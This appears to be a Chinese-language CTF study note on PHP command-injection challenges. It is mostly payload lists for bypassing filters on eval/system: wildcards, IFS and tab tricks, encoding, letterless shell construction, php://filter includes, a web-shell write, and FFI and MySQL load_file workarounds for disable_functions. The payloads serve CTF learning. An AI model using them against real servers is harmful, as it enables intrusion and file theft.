





# 命令执行

## 常见思路：

1. 使用通配符 `?` **或** `*`

   ```php
   ?c=system('tac *');          // 读取所有文件
   ?c=system('tac fl*');        // tac反向读取，*通配
   ```

2. 字符串拼接/变换

   ```php
   ?c=system('cat fl'.'ag.php');     // 字符串拼接
   ?c=system('cat fla'.'g');          // 拼接绕过
   ?c=system('cat '.chr(102).'lag');  // chr()函数
   ```

3. Base64编码执行

   ```php
   ?c=eval(base64_decode('c3lzdGVtKCJjYXQgZmxhZy5waHAiKQ=='));  
   // 解码后是 system("cat flag.php")
   ```

   `chr()` 函数用于将 ASCII 码值（十进制）转换为对应的单字节字符。

4. 使用反引号执行

   ```php
   ?c=print(`cat fla?`);
   ?c=var_dump(`cat fl*`);
   ?c=echo `tac fla*`;
   ```

   **var_dump()** :用于打印变量的详细信息，包括**数据类型、长度及结构**。

5. **参数传递绕过**（很好用）

   ```php
   ?c=system($_GET[1]);&1=cat flag.php
   ?c=eval($_GET[1]);&1=system("tac flag.php");
   ```

6. 异或/取反绕过（无字母数字时用）

   ```php
   ?c=($_=~%8F%97%8F%96%91%99)($_GET[1]);&1=cat flag.php
   // ~取反得到 _GET，然后动态执行
   ```

7. **无字母数字 WebShell**

   ```php
   echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
   ```

   1. `localeconv()` 返回本地化信息，其第一个元素是 `.`（小数点）
   2. `pos(localeconv())` 获取 `.`
   3. `scandir('.')` 扫描当前目录
   4. `array_reverse()` 反转数组
   5. `next()` 获取第二个元素（通常是文件列表中的某个文件）
   6. `highlight_file()` 高亮显示该文件内容

   **用途**：在**无字母数字 WebShell** 中，用来读取目录下最后一个文件。


## 其他思路：**文件包含+代码执行**：

1. **文件包含+代码执行**：

   ```php
   ?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
   或?c=include$_GET[1];&1=php://filter/read=convert.base64-encode/resource=flag.php
   ```

   `>`和`;`是**强制分隔符**，它能防止 `$_GET[1]` 的值和后面的代码粘连在一起，导致语法错误、

2. cp命令将flag拷贝到别处去

   ```php
   ?c=system("cp fl*g.php a.txt");
   ```

   然后再访问a.txt

3. **文件上传+代码执行**

   ```php
   ?c=file_put_contents('shell.php','<?php eval($_POST[1]);?>');
   ```

4. 重命名（mv）

   ```php
   ?c=mv${IFS}fla?.php${IFS}a.txt
   ```

## 过滤场景：

### **过滤system：**

```php
exec:	?c=exec('cat flag.php',$r);print_r($r);
shell_exec:	?c=echo shell_exec('cat flag.php');
反引号：?c=echo `cat fla*`;
passthru:	?c=passthru("tac%20fla*");
```

**`exec()`**将命令输出的**每一行**作为一个元素，追加到这个数组 `$r` 中。

### **过滤空格：**

1. 使用`Tab`键：

   ```php
   ?c=passthru("tac%09fla*");      // %09 是 Tab
   ?c=echo`tac%09fla*`;
   ```

   这里的%09被解析成\x09(Tab键)

2. 使用`${IFS}`

   ${IFS}:**内部字段分隔符**:它的默认值包含空格、制表符（Tab）和换行符。

   ```php
   passthru("tac\$IFS\$9fla*");
   ?c=ta\c${IFS}/fla''g||
   ```

   `$9` 是一个**技巧性占位符**，它的核心作用是**帮助 `$IFS` 被正确解析为一个整体**，从而替代被过滤的空格。

   这里的`\`是将IFS不开成一个变量

3. 使用`\`重定向：

   ```php
   ?c=passthru("tac<fla*"); 
   或者cat<>flag.php
   ```

4. **使用 `{cmd,arg}` 语法**（Bash）：

   ```php
   ?c=echo `{tac,fla?}`;      // 大括号展开
   ```

### **过滤`(`和`;`(不能分隔语句)和echo**

 **这里使用文件包含（很好用）**

```php
?c=include%0A$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
?c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
?c=include$_GET[1]?>&1=data://text/plain,<?= system("tac fla*"); ?>
```

0A是换行符，不加也可以

### **include后面加上.php**

- 加注释（#）
- `?>`本身就是结束符号



### **标点和数字大多被过滤**



- ?c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));

  通过提取`.`来调整文件的位置

  ?c=show_source(next(array_reverse(scandir(pos(localeconv())))));

  show_source():**读取并显示指定 PHP 文件的源代码，并自动加上 HTML 语法高亮**。

  1. `localeconv()` 返回本地化信息数组，其第一个元素 `decimal_point` 的值是 `.`（小数点）
  2. `pos(localeconv())` 获取这个 `.`
  3. `scandir('.')` 扫描当前目录，返回文件列表数组
  4. `array_reverse()` 反转数组（最后一个文件变成第一个）
  5. `next()` 获取第二个元素（通常是当前目录下的某个文件）
  6. `show_source()` 高亮显示该文件内容

- c=eval(array_pop(next(get_defined_vars())));//需要POST传入参数为1=system('tac fl*');

  1. `eval()` 执行 `array_pop(next(get_defined_vars()))`
  2. `get_defined_vars()` 获取所有变量
  3. `next()` 从 `_GET` 移到 `_POST`
  4. `array_pop()` 取出 `$_POST` 的最后一个值：`system("tac fl*")`
  5. `eval()` 执行 `system("tac fl*")`

  通过找到可控量（新建的POST）

### 过滤了字母：

- base-64：

  ```php
  ?c=/bin/base64 flag.php
  转换为?c=/???/????64 ????.???
  ```

- 8进制：

  ```php
  $'\154\163' #ls
  ?c=$'\164\141\143' $'\146\154\141\147\56\160\150\160'  #tac flag.php
  ```

  

### 数字和字母和部分标点都不能用



发现未过滤【或 | 】运算符，可以使用两个不在正则匹配范围内的非字母非数字的字符进行或运算，从而得到我们想要的字符串

写一个异或脚本

- 文件上传（python脚本）

  ```text
  上传恶意脚本->服务器处理上传,PHP 接收文件 → 保存到临时目录,路径: /tmp/phpAbCdEf (随机生成)->通配符匹配,Shell 展开: /???/????????@-[],匹配到: /tmp/phpAbCdE->执行脚本,读取文件内容: #!/bin/sh, cat /var/www/html/flag.php 
  ```

  **循环发送**:临时文件名是随机的

  

- 利用 `$$/$$` 构造数字绕过过滤（目的是构造数字36）

  ```bash
  ?c=$((($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)+($$/$$)))
  ```

- 取反法（`~` 运算）

  ```bash
  ?c=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(()))) )))
  ```

- 用进制转换"变"出函数名,用"可变变量"和花括号绕开变量名检测,利用 `extract()` 或 `$$` 从 GET 参数"注入"数据

  ```php
  #看文件
  c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos});&abs=system&acos=ls
  #读文件
  c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos});&abs=system&acos=tac flag.php
  ```

  


### Linux的黑洞

题目：

```php
system($c . " >/dev/null 2>&1");
```

**执行系统命令，并将所有输出（包括错误）丢弃**，不返回任何结果给用户。

```php
这里有分号（;）可以将两个命令隔开
ls; > /dev/null 2>&1
?c=tac fla*;
```

**过滤了分号**：可以用换行符，%0A

```php
?c=tac flag*%0A
```

可以用||（**逻辑或（OR）操作符**：**如果左边的命令执行失败，才执行右边的命令**。）

```php
?c=tac flag.php||
```

也可以用cp flag.php out.txt

**这里只是没有回显，但是命令执行了**



```php
?c=tac%09f''la?.php||
```

这个表达式还是能用，PHP 会自动将 `%09` 解码为**一个实际的 Tab 制表符**（ASCII 码 9）。这个 Tab 键是一个**控制字符**，而不是数字字符 `'9'` 或 `'0'`。

过滤了`*`还能用：

```php
?c=ca\t<fl\ag.php||
?c=tac%09fl''ag.php||
?c=tac%09fl""ag.php||
?c=tac%09fl??.php||
?c=ta\c${IFS}/fla''g||
?c=nl${IFS}/fla''g%0A
```

nl:显示文件内容并编号

### POST传参

在CTF题目中，为了增加难度，管理员通常会在PHP配置文件（`php.ini`）里设置 `disable_functions`，像 `system`、`exec`、`shell_exec` 这类高危函数都会被加入黑名单。

**`open_basedir`**：限制 PHP 能访问的文件系统目录，让你无法直接用 `scandir('/')` 或 `readfile('/flag.txt')` 读取根目录的文件。

当你用蚁剑连接成功后，想去虚拟终端执行`whoami`或`cat /flag`时，发现命令无法执行或返回`ret=127`，就是因为它被拦了。

- 扫描根目录下的文件夹：

```php
c=print_r(scandir('/'));
c=var_dump(scandir('/'));
c=var_export(scandir("/"));
c=var_export(glob("/*"));exit();#scandir()受限时可以用glob()
c=echo json_encode(scandir("/")); 
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');}exit(0);?>#glob伪协议
```

- 输出

  ```php
  c=highlight_file("flag.php");
  c=show_source('flag.php');
  c=readgzfile('/flag.txt');#读取 gzip 压缩文件，也可以读取普通文本文件！
  ```

  `show_source()` 是 PHP 的内置函数，**是 `highlight_file()` 的别名**，功能完全一样

- include文件包含

  ```php
  c=include($_POST['w']);&w=php://filter/convert.base64-encode/resource=flag.php
  c=include "php://filter/convert.base64-encode/resource=/flag.txt";
  ```

- 清空缓冲区（清空输出）

  ```php
  #题目：
  error_reporting(0);
  ini_set('display_errors', 0);
  
  if(isset($_POST['c'])){
      $c= $_POST['c'];
      eval($c);                    // 执行你的代码
      $s = ob_get_contents();      // 获取输出
      ob_end_clean();              // 清空输出缓冲区
      echo preg_replace("/[0-9]|[a-z]/i","?",$s);  // 把字母和数字替换成 ?
  }else{
      highlight_file(__FILE__);
  }
  ```

  - 强制输出缓冲区内容（ob_flush()）

    ```php
    c=include('/flag.txt');ob_flush();
    c=include('/flag.txt');ob_end_flush();
    ```

  - 提前终止程序

    ```php
    c=include('/flag.txt');exit();
    c=include('/flag.txt');die();
    ```

  - 调用不存在的方法或者类，触发 PHP 致命错误 (Fatal Error)， 脚本立即终止，跳过后面的 preg_replace 过滤

    ```php
    c=include('/flag.txt');undefined_function();
    c=include('/flag.txt');new UndefinedClass();
    #trigger_error() 触发错误
    c=include('/flag.txt');trigger_error('error', E_USER_ERROR);
    ```

  - `open_basedir` 限制下读取根目录的 flag

    先用 `glob://` 协议找到 flag 文件名，然后利用一个 UAF（Use-After-Free）漏洞脚本来执行系统命令，最终获取 flag

    ```php
    c=$a = new DirectoryIterator("glob:///*"); 
    foreach($a as $f) { echo($f->__toString().' '); } 
    exit(0);
    ```

     **UAF（Use-After-Free，释放后使用）漏洞**

    #### UAF(Web72)

    **什么是 UAF？**

    简单来说，程序在运行时会不断地向内存申请和释放空间。UAF 漏洞发生的条件是：

    1. 程序释放了一块内存。
    2. 程序员忘记了把指向这块内存的指针（好比一个门牌号）清空。
    3. 之后，这个已经无效的指针（门牌号）又被错误地使用了。

    > 攻击者就能利用这个漏洞，在内存中精心布局（即 `heap spraying`），当程序因 UAF 再次使用那块已经被释放的内存时，就能**覆盖某些关键的函数指针**，将系统命令的执行函数（如 `system`）"嫁接"到一个正常函数上。这样，你调用一个看似无害的 PHP 函数，实际执行的却是 `system("cat /flag0.txt")`。

    这个题目很典型，它模拟了真实攻防中"层层渗透"的场景：先收集信息，发现限制，再找到漏洞利用点，最后完成突破。从 CTF 的角度看，这是一种**通过内存破坏漏洞实现沙盒逃逸**的高级技巧，也让 Web 题有了 Pwn 题的影子

  - **PDO 和 MySQL 的 `load_file()`**

    如果目标环境开启了 PDO 扩展且 MySQL 服务可访问，就可以通过 **MySQL 的 `load_file()` 函数** 来读取服务器文件。

    ```php
    #mysqli:仅支持 MySQL
    c=$conn = mysqli_connect("127.0.0.1", "root", "root", "ctftraining"); $sql = "select load_file('/flag36.txt') as a"; $row = mysqli_query($conn, $sql); while($result=mysqli_fetch_array($row)){ echo $result['a']; } exit(); 
    #PDO(PHP Data Objects):	支持 12+ 种数据库
    c=try {$dbh = new PDO('mysql:host=localhost','root',
    'root');foreach($dbh->query('select load_file("/flag36.txt")') as $row)
    {echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e-
    getMessage();exit(0);}exit(0);
    ```

  - FFI：**Foreign Function Interface**

    常规的文件读取函数以及 PDO 数据库连接都被禁用,可以利用 **PHP 7.4+ 的 FFI（外部函数接口）扩展**来调用 C 语言的 `system()` 函数

    > 思路:PHP 代码 → FFI → C 库函数 (如 system) → 系统命令执行

    这一题的思路: `disable_functions` 只禁用 PHP 函数，但 **FFI 可以直接调用 C 库的 `system()`**，完美绕过！

    ```php
    $ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
    $a='/readflag > 1.txt';//没有回显的
    $ffi->system($a);//通过$ffi去调用system函数
    c=$ffi = FFI::cdef("int system(const char *command);"); $ffi->system("/readflag > /var/www/html/1.txt");
    ```

  - 利用环境变量当作字典

    ```php
    ${PATH:~A}${PWD:~A}${IFS}????.???
        
    ${PATH:${#HOME}:${#SHLVL}}${PATH:${#RANDOM}:${#SHLVL}} ?${PATH:${#RANDOM}:${#SHLVL}}??.???
        
    ${PWD:${#}:${##}}???${PWD:${#}:${##}}?${PWD:${SHLVL}:${#SHLVL}}${PWD:~${SHLVL}:${#SHLVL}}$IFS?${PWD:~A}??.???
        
    #cat flag.php
    c=${PWD::${##}}???${PWD::${##}}??${PWD:~${SHLVL}:${##}} ????.???
        
    #/bin/cat flag.php
    ${PWD::1}???${PWD::1}?${USER:~A}? ????.???
    → / ??? / ? a ?   ????.???
    → /???/?a? ????.??
        
    /bin/rev
    code={PWD::${##}}???${PWD::${##}}${PWD:${#IFS}:${##}}?? ????.???
    ```

    - **`${PATH:~A}` 取字母 'n'**：环境变量 `PATH` 通常以 `/bin` 或 `/usr/bin` 结尾。`${PATH:~A}` 的 `~A` 表示从字符串末尾倒数 `1` 位（因为字母 `A` 在算术环境中被视为 `0`），也就是取最后一个字符，即字母 `n`。
    - **`${PWD:~A}` 取字母 'l'**：当前工作目录 `PWD` 通常是 `/var/www/html`。`${PWD:~A}` 取最后一个字符，即字母 `l`。
    - **`${IFS}` 代替空格**：`IFS` 是 Bash 的内部字段分隔符，默认包含空格，常用来绕过对空格字符的过滤

    将上面拼出来的字符组合起来，就是 `nl` 命令，再用通配符 `????.???` 来匹配 `flag.php` 文件
